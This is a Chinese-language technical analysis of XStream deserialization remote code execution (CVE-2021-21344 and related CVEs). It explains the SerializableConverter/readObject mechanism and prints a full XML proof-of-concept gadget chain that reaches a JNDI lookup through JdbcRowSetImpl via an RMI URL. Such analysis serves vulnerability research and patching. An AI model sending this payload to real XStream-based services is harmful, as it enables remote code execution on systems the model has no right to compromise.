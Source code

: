 # CVE-2021-21344(45 47 50 51)-远程代码执行
## 影响范围
Xstream <= 1.4.15
## 漏洞分析
主要原因在于Xstream在将XML转换为JAVA对象时,对于实现了`Serializable`和没有实现该接口的对象类处理方式不同,从而调用的Converter不同,对于实现了`Serializable`接口的对象使用的是`SerializableConverter`,对于未实现该接口调用的是`ReflectionConverter`,而在`SerializableConverter`中会调用对象类重写`readObject`方法,导致反序列化RCE.  
实例类代码如下:
```java
    public static class test implements Serializable{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
        private void readObject(ObjectInputStream ob) throws IOException,ClassNotFoundException {
            System.out.println("test");
            ob.defaultReadObject();
        }
    }
```
```java
        XStream stream = new XStream();
        test test = new test();
        String xml = stream.toXML(test);
        System.out.println(xml);
        stream.fromXML(xml);
```
结果如下:
![](2021-12-16-00-03-03.png)
可以看到多了一个`serialization="custom"`标识来表示该对象类实现了`Sserializable`接口,并且在XML转化为JAVA对象时调用了该对象类的`readObject`方法.
## 利用思路
利用思路则是寻找一条重写了`readObject`方法的利用链即可.  
POC-CC1:
```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
                      <queryTimeout>0</queryTimeout>
                      <readOnly>true</readOnly>
                      <rowSetType>1004</rowSetType>
                      <showDeleted>false</showDeleted>
                      <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                      <params/>
                    </default>
                  </javax.sql.rowset.BaseRowSet>
                  <com.sun.rowset.JdbcRowSetImpl>
                    <default>
                      <iMatchColumns>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                      </iMatchColumns>
                      <strMatchColumns>
                        <string>foo</string>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```
### PriorityQueue类
PriorityQueue类是实现了Serializable接口并重写了readObject方法的一个类,从POC可以看到带其`serialization=custom`属性,
在该类重写的`readObject`可以看到最后调用了`heapify()`方法.
![](2021-12-16-10-50-39.png)
#### $IndexOrderComparator
跟进`heapify()`方法中一路到`siftDown`方法中,其中根据属性`comparator`是否为空调用不同的方法,POC中设置了该属性为`datatransfer.DataTransferer$IndexOrderComparator`,也就是会调用`siftDownUsingComparator(k, x)`.
![](2021-12-16-10-53-50.png)
而在`siftDownUsingComparator`中会调用到`comparator.compare`,也就是`IndexOrderComparator`的`compare方法`.
![](2021-12-16-11-03-52.png)
#### JdbcRowSetImpl
在`IndexOrderComparator`的`compare方法`的一系列嵌套调用中最后会调用反射来到`JdbcRowSetImpl#getDatabaseMetaData`中通过获取`dataSource`属性值传入connect()中的lookup造成JDNI注入.  
调用栈如下:
![](2021-12-16-11-12-46.png)
## 总结
1. Xstream在将XML数据转化为JAVA对象类时,如果原来的JAVA对象类实现了序列化接口则会调用`SerializableConverter`转换器来进行转换,其中会调用其重写的readObject()方法.
2. 因为所有参数都是从XML数据中获取,全部可控,找一个重写了readObject能利用的链即可.
3. PriorityQueue类实现了序列化接口,并且重写了readObject,其中构造参数使用反射调用到`JdbcRowSetImpl`方法中造成JNDI注入.

## 其它利用链
后续几个CVE原理都一样,主要在于其利用的链不同.
### CVE-2021-21345
该CVE主要利用`com.sun.corba.se.impl.activation.ServerTableEntry类`直接在本地执行恶意代码而不再通过JDBC链去远程加载恶意类.
### CVE-2021-21347
该CVE主要利用`javafx.collections.ObservableList$1`的compare方法来使用URLClassLoader来加载远程恶意类.
### CVE-2021-21350
该CVE与CVE-2021-21347相似,只不过最后不是利用URLClassLoader来远程加载,而是使用BCEL的方式.
### CVE-2021-21351
## 参考
https://www.freebuf.com/articles/web/268553.html  
https://x-stream.github.io/security.html
